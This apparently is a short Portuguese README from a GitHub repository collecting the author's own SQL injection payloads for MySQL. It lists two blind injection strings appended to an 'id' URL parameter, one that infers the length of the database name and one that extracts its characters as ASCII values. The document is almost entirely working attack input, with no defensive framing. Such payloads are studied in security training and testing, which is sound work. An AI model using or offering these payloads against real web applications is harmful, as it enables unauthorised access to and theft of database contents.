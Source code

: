 # Minhas-payload-sql-injection

# Esse repositório não é cheat sheet de sql injection.

#==============Payload MySQL==============

'''EXTRAINDO número de caracteres DA DATABASE.'''
  ?id=1' AND LENGTH(DATABASE()) > 2 --+
  
#EXTRAINDO OS CARACTERES DO BANCO DE DADOS EM ASCII.
  ?id=1' AND substring(ascii(DATABASE()),1,8) >= 115--+-